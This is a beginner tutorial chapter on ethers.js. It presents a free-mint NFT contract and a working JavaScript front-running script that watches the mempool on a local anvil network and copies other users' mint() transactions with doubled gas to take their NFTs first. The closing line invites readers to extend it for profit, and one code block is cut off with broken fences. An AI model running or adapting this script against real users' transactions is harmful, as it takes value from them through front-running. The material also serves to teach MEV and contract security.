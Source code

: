 ```yaml
---
title: 23. Front-running Script
tags:
  - ethers
  - javascript
  - mev
  - mempool
  - frontrun
  - nft
  - frontend
  - web
---
```


# Ethers Simplified: 23. Front-running Script

Recently, I've been relearning `ethers.js` to strengthen my understanding and to write a simplified guide called `WTF Ethers Simplified` for beginners to use.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy Community: [Discord](https://discord.gg/5akcruXrsk)｜[WeChat Group](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

All code and tutorials are open source on GitHub: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

In this lesson, we will introduce a script for front-running transactions. According to statistics, arbitrageurs on Ethereum have made $1.2 billion in profits through sandwich attacks. Before proceeding, please read the [WTF Solidity Tutorial Contract Security S11: Front-running](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md).

![](./img/23-1.png)

## Freemint NFT Contract

The target contract that we will be front-running is an ERC721 standard NFT contract called `Frontrun.sol`, which has a `mint()` function for free minting.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// We are attempting to front-run a Free mint transaction
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Constructor to initialize the NFT collection's name and symbol
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Mint function
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

To simplify the testing environment, we will deploy the above contract on the local test network, foundry, and then monitor the pending transactions in the mempool to filter out qualifying transactions for front-running.

If you're not familiar with `foundry`, you can read the [Foundry Tutorial in WTF Solidity](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md). Once you have installed foundry, you can start the local test network by running the following command in the command line:

```shell
anvil
```

## Front-running Script

Next, let's take a detailed look at the front-running script `frontrun.js`. This script will monitor the `mint()` transactions on the chain and send a higher-gas transaction to front-run them.

1. Create a `provider` object to connect to the local foundry test network for monitoring and sending transactions. The default URL for the foundry local test network is `"http://127.0.0.1:8545"`.

    ```js
    //1. Connect to the local foundry network
    import { ethers } from "ethers";
    const provider = new ethers.providers.WebSocketProvider('http://127.0.0.1:8545')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Connected to network ${res.chainId}`))
    ```
2. Create a contract instance to view the minting results and confirm if front-running was successful.

    ```js
    //2. Build contract instance
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193' // Address of the contract
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. Create an `interface` object that contains the `mint()` function we are interested in. We will use this object during the monitoring process. If you're not familiar with it, you can read the [WTF Ethers Simplified Lesson 20: Decoding Transactions](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md).

    ```js
    //3. Create an Interface object to retrieve the mint function
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
        return iface.getSighash(fn)
    }
    ```
4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network and contains 10,000 ETH test tokens.

    ```js
    //4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```
5. Let's first see what a normal mint result looks like. We will use the `provider.on` method to monitor the pending transactions in the mempool. When a transaction occurs, we will use the transaction hash `txHash` to read the transaction details `tx` and filter out the transactions that call the `mint()` function. We will then view the transaction result, get the minted NFT token ID and its owner, and compare the transaction sender address with the owner address to confirm that the mint executed as expected.

    ```js
    //5. Build a normal mint function to verify the mint result and display it as normal.
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint") !== -1)) {
                    console.log(`[${(new Date).toLocaleTimeString()}] Transaction detected: ${txHash}`)
                    console.log(`Address that initiated the minting: ${tx.from}`) // Print the transaction sender address
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`Minted NFT token ID: ${tokenId}`)
                    console.log(`Owner of NFT with ID ${tokenId}: ${await contractFM.ownerOf(tokenId)}`) // Print the NFT owner address
```
```md
```js
console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(tokenId)}`)//Compare whether they are the same
```

![](./img/23-2.png)

6. Front-run the minting. We still use the `provider.on` method to listen for pending transactions in the mempool. When a transaction that calls the `mint()` function appears and the sender is not our wallet address (if not filtered, it will be an infinite loop of racing against ourselves), construct a front-run transaction and send it to race. After waiting for the transaction to complete, check the front-run result. The expected result is that the NFT to be minted is not minted by the original transaction initiator, but by the front-run address. At the same time, check the data in the block. The front-run transaction is included in the block before the original transaction is packaged, indicating a successful front-run!

    ```js
    const frontRun = async () => {
        provider.on('pending', async (txHash) => {
            const tx = await provider.getTransaction(txHash)
            if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
                console.log(`[${(new Date).toLocaleTimeString()}]Transaction found:${txHash}\nPreparing for front-running`)
                const frontRunTx = {
                    to: tx.to,
                    value: tx.value,
                    maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                    maxFeePerGas: tx.maxFeePerGas.mul(2),
                    gasLimit: tx.gasLimit.mul(2),
                    data: tx.data
                }
                const aimTokenId = (await contractFM.totalSupply()).add(1)
                console.log(`The NFT ID to be minted is:${aimTokenId}`)//Print the NFT ID to be minted
                const sentFR = await wallet.sendTransaction(frontRunTx)
                console.log(`Front-running the transaction`)
                const receipt = await sentFR.wait()
                console.log(`Front-run transaction succeeded, transaction hash:${receipt.transactionHash}`)
                console.log(`Address that initiated the mint:${tx.from}`)
                console.log(`The owner of NFT with ID ${aimTokenId} is ${await contractFM.ownerOf(aimTokenId)}`)//The NFT minted just now is not owned by tx.from
                console.log(`The owner of NFT with ID ${aimTokenId.add(1)} is:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from was front-run by wallet.address and minted the next NFT
                console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//Comparison, tx.from was front-run
                //Check block data result
                const block = await provider.getBlock(tx.blockNumber)
                console.log(`Transactions in the block:${block.transactions}`)//In the block, the later transaction is placed before the earlier transaction, indicating a successful front-run.
            }
        })
    }
    ```

    ![](./img/23-3.png)

## Summary

In this lesson, we introduced a simple front-running script. You can add the desired features to this script and start your journey as a scientist in the crypto world!
```